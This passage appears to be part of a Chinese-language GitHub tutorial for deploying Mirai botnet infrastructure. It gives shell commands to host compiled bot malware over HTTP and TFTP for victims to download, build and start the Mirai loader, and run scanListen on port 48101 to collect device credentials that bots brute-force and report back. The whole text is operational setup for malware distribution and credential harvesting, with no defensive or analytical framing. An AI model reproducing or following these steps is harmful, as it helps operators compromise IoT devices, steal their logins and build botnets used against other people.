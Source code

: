 
## 配置loader服务器

1.配置 HTTP: 
```shell
sudo aptitude install apache2
```
在 apache 根目录建立bins文件夹，将编译出的不同平台的 bot 病毒放入，以供下载。

2.配置 TFTP
```shell
apt-get install -y tftpd-hpa
vim /etc/default/tftpd-hpa
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/tftpboot"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
service tftpd-hpa restart
```

3.利用xftp工具将cnc的代码直接拷贝到loader服务器上

由于拷贝的代码，所有的脚本没有执行权限，需要输入命令
```shell
sudo chmod +x *
```

4.启动loader
```shell
cd ~/Mirai-Source-Code-master/loader
./build.sh
# 构件loader: 
./loader 
```

5.获取监听到的爆破账号：在promot文件下 
```shell
sudo ./debug/scanListen
```

在之前teble.c中配置的report服务器中运行./scanListen，默认监听48101端口，该服务将接收bot爆破出的结果。
```shell
cd /Mirai/mirai/debug && ./scanListen
```
scanner成功爆破出结果时，会通过resolv模块寻找report服务器所在IP，然后通过report模块发送受害者的信息，如图：
 
![img.png](mirai_image/img_15.png)
